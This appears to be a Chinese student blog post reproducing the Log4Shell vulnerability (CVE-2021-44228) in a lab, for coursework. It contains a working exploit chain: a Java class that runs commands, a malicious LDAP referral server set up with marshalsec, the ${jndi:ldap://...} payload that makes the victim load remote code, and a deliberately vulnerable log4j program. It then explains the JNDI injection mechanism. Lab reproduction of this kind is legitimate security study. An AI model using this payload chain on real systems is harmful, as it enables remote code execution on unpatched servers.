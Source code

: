 ```yaml
---
title: CVE-2021-44228复现
date: 2024-11-10 00:17:13
categories: [技术, 安全, Web安全]
tags: [Java]
---
```


<b>前言：</b>这是安徽大学 "漏洞分析实验"（大三秋冬）期中作业归档。代码及ppt托管于Github：<https://github.com/Super-Binary/cve-2021-44228>

<!--more-->

## 一、攻击环境搭建

本次使用的攻击环境如下：

* <b>Ubuntu</b> 22.04.1 LTS <b>VPS</b>
* <b>Apache Maven</b> 3.6.3
* <b>OpenJDK</b> 1.8.0_422（即Java8）
* <b>Python</b> 3.10.6
* 放行端口8888（TCP，http服务器端口）
* 放行端口1389（TCP，LDAP服务端口）

首先在测试用目录（出于方便在此使用/root/test）下创建一个漏洞利用类Exploit.java如下：

```Java
import java.io.IOException;

/**
 * @author KaleidScoper
 */

public class Exploit {
    static {
        try {

            Runtime.getRuntime().exec("cmd.exe /c mshta vbscript:msgbox(\"少爷，该启动原神了\",64,\"来自log4j的消息\")(window.close)");
            String shortcutPath = "C:\\Users\\此处填写用户文件夹名\\Desktop\\原神.lnk";
            Runtime.getRuntime().exec("cmd.exe /c start " + shortcutPath);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

然后使用javac命令将其编译为Exploit.class待用。其中写入的两条cmd命令是针对Windows系统的，如果你的受害环境没有使用Windows，请按需将其更改。在本例中，第一条指令打开了Windows消息窗口显示文本，第二条指令启动了位于桌面的一个快捷方式。

然后我们启动一个临时python http服务器，挂在后台运行：

```bash
python -m http.server 8888 &
```

使用ps命令可以看到该进程（显示为python）的进程号。

现在使用marshalsec搭建LDAP服务。首先从Github下载该工具：

```bash
git clone https://github.com/mbechler/marshalsec.git
```

假设你的VPS无法访问Github，可以直接自己去克隆这个库，然后用ftp之类的工具上传至VPS也是一样的效果，不再赘述。假设你已经成功下载了marshalsec。

现在进入marshalsec文件夹：

```bash
cd marshalsec
```

跳过测试，并编译该工具：（mvn命令可通过apt install maven安装）

```bash
mvn clean package -DskipTests
```

现在启动LDAP服务，攻击环境就搭建完毕了：（这个就不必后台运行了）

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://IP地址:8888/#Exploit"
```

其中“IP地址”改为你使用的攻击者VPS的ip地址；8888为python服务器的监听端口。

LDAP的默认监听端口为1389，故构建以下攻击Payload：

```json
${jndi:ldap://IP地址:1389/Exploit}
```

稍后我们将把它输入受害者程序来完成攻击。

## 二、受害环境搭建

本次使用的受害环境如下：（也就是我的电脑）

* **Windows** 11
* **Apache Maven** 3.9.9
* **OpenJDK** 1.8.0_261

首先在测试用目录（出于方便在此使用D:\test）下创建一个mvn项目配置文件pom.xml如下：

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <properties>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>
    

    <groupId>com.example</groupId>
    <artifactId>log4j-demo</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <!-- Log4j Core -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>

        <!-- Log4j API -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.codehaus.mojo</groupId>
                <artifactId>exec-maven-plugin</artifactId>
                <version>3.0.0</version>
                <configuration>
                    <!-- 主类名称 -->
                    <mainClass>log4j</mainClass>
                </configuration>
            </plugin>
        </plugins>
    </build>
</project>
```

在该配置文件中使用了**log4j-core** 2.14.1和**log4j-api** 2.14.1，是受CVE-2021-44228影响的log4j版本。此处将主类名称定义为即将编写的log4j类。

mvn项目除了需要一个pom.xml配置文件，还需要我们手动在D:\test目录下再创造一个路径src\main\java。然后在此新建路径下创建受害者程序主类log4j.java，目前为止的完整文件树状图如下：

```
D:\test
├───src
│   └───main
│       └───java
│           └───log4j.java
└───pom.xml
```

创建的log4j.java文件内容如下：

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * @author KaleidScoper
 */

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        logger.error("${jndi:ldap://testgames.me:1389/Exploit}");
    }
}
```

实际情况下，攻击语句  ${jndi:ldap://testgames.me:1389/Exploit}  应该是由恶意用户输入的。但为了方便演示，在此处，我们是将攻击语句硬编码入受害程序的，效果是一样的。

现在我们编译并运行此程序：

```bash
 mvn compile exec:java
```

如果你的http服务、LDAP服务运行正常，远程Exploit就会立即执行。

## 三、漏洞原理

LDAP（Lightweight Directory Access Protocol，轻型目录访问协议）是一个开放的、中立的、工业标准的应用协议，通过 TCP/IP 协议提供访问控制和维护分布式信息的目录服务，可以通过 LDAP 协议来访问网络资源，可以看成一个树形的数据库。

JNDI 的目的是通过名称 / 目录获取对象，而远程读取的一般是编译后的 .class 文件所以在 lookup 时会进行类加载，JVM 将其加载为 Java 类。而当 ClassLoader 加载 .class 文件的时候会调用类的 clinit 方法，执行类的静态代码。因此如果可以控制 JNDI lookup 的 URL，便可以任意加载远程类，执行恶意代码，这也就是 JNDI 注入原理。

但是 JNDI 注入受到 JDK 配置限制，如果 com.sun.jndi.xxx.object.trustURLCodebase 这一配置是 false 时则不会信任 URL 从而无法进行 JNDI 注入。在 JDK 11.0.1、8u191、7u201、6u211 等版本中这一配置默认是 true，而从 6u132、7u122、8u113 开始，这一配置默认为 false（因此后面使用高版本 JDK 复现时要手动开启这一配置）

CVE-2021-44228 即是通过 log4j 来实现了 JNDI 注入。log4j 可以通过 ${} 语法来获取动态内容并输出到日志中，其中对于每个 ${} 部分使用 lookup 方法来解决变量，其中也提供了 JndiLookup，也就是说可以使用 JNDI 来读取内容，形如 ${jndi:...}。这时就存在 JNDI 注入。

而大部分使用 log4j 来记录日志的网络应用都会记录用户的输入，比如搜索网站会记录用户搜索的内容，这时如果用户输入的是 ${jndi:...}（比如 ${jndi:ldap://ip:port/...}） 就会进行 JndiLookup，实现 JNDI 注入，这也就是 CVE-2021-44228 这个漏洞的原理。

## 四、Q&A

<b>Q：</b>受害者应用启动成功，但是直接以文本输出了攻击Payload`[log4j.main()] ERROR log4j - ${jndi:ldap://testgames.me:1389/Exploit}`这是为什么？

<b>A：</b>这可能说明你的http服务、LDAP服务运行不正常，或者只是单纯的网络问题。在受害者环境，你可以在浏览器访问http://你的VPS地址:8888/Exploit.class，如果触发了文件下载，说明此项服务正常开启；对于LDAP，你可以使用命令`telnet 你的VPS地址 1389`来测试受害者能否与此端口通信。当发现无法连接时，请试着重新启动攻击者的两个服务、或者查看8888与1389端口是否正确放行。
